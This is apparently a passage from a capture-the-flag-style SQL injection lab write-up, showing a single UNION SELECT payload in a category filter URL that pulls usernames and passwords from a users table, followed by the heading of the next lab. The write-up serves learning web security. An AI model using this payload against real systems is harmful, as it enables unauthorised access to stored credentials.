 ![img](media/b548c4991bb651341027e16ee57196ab.png)

Knowing the table and database names we can retrieve the content from users
using the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+username,password+from+users--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/c74c433d4c17d766574b5cf8244a596f.png)

06 SQL injection UNION attack, retrieving multiple values in a single column
============================================================================
